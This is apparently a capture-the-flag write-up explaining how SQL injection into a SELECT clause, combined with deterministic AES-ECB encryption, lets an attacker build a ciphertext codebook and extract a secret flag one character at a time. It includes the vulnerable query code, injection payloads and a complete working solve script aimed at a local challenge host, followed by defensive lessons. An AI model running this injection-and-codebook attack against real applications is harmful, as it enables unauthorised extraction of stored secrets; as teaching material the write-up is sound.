 # AES-ECB Chosen Plaintext Attack via SQL Injection - Writeup

## Challenge Overview
This challenge combines two critical vulnerabilities:
1. **SQL Injection**: The application directly interpolates user input into SQL queries
2. **ECB Mode Weakness**: Uses deterministic AES-ECB encryption that leaks plaintext patterns

## Key Vulnerabilities

### 1. SQL Injection
The vulnerable code:
```python
query = flask.request.args.get("query") or "'A'"
sql = f'SELECT {query} FROM secrets'  # Direct interpolation!
```

Allows us to:
- Execute arbitrary SQL expressions
- Control exactly what gets encrypted
- Extract data character-by-character

### 2. ECB Encryption Weakness
Identical plaintext blocks produce identical ciphertexts. The server:
1. Takes SQL query results
2. Pads them to 16-byte blocks
3. Encrypts with AES-ECB

## Attack Methodology

### Phase 1: Build the Codebook
```python
for c in charset:
    payload = f"'{c}'"  # SQL string literal
    response = requests.get(f"?query={quote(payload)}")
    ct = extract_ct(response.text)
    codebook[ct] = c
```
- Creates mappings like `'p' → ec3ca9a4...`
- Uses all printable characters likely in flags
- Takes ~63 requests (one per character)

### Phase 2: Extract the Flag
```python
for i in range(1, 60):
    payload = f"SUBSTR(flag,{i},1)"
    ct = query(payload)
    if ct in codebook:
        flag += codebook[ct]
```
- Extracts characters one at a time
- Matches ciphertexts against our codebook
- Stops when ciphertexts don't match (end of flag)

## Why This Works

### SQL Injection Enables Plaintext Control
By injecting `SUBSTR(flag,1,1)` we:
1. Make the server return the first flag character
2. Get it encrypted exactly like our codebook characters
3. Can directly compare ciphertexts

### ECB's Deterministic Encryption
- `encrypt(pad('p'))` always equals `encrypt(first_flag_char)`
- Same plaintext = same ciphertext in ECB
- No need to know the key!

## Complete Solution Code
```python
import requests
from urllib.parse import quote

charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}-!?."

def build_codebook():
    codebook = {}
    for c in charset:
        payload = f"'{c}'"
        r = requests.get(f"http://challenge.localhost/?query={quote(payload)}")
        ct = r.text.split("<pre>")[2].split("</pre>")[0]
        codebook[ct] = c
    return codebook

def extract_flag(codebook):
    flag = ""
    for i in range(1, 60):
        payload = f"SUBSTR(flag,{i},1)"
        r = requests.get(f"http://challenge.localhost/?query={quote(payload)}")
        ct = r.text.split("<pre>")[2].split("</pre>")[0]
        if ct in codebook:
            flag += codebook[ct]
        else:
            break
    return flag

codebook = build_codebook()
flag = extract_flag(codebook)
print("Flag:", flag)
```

## Execution Flow
1. Build codebook:
   - `'a'` → `d1cfcb1e...`
   - `'b'` → `8cc5ff91...`
   - ...

2. Extract flag:
   - `SUBSTR(flag,1,1)` → matches `'p'` ciphertext
   - `SUBSTR(flag,2,1)` → matches `'w'` ciphertext
   - ... until complete flag is recovered

## Lessons Learned
1. **Never use ECB mode** for sensitive data - it leaks plaintext patterns
2. **Always parameterize SQL queries** - string interpolation is dangerous
3. **Chosen plaintext attacks** are powerful when attackers can control input
4. **Padding matters** - must be consistent between attack phases

This attack demonstrates how cryptographic weaknesses combine with web vulnerabilities to break systems. The solution efficiently exploits both to recover the complete flag.
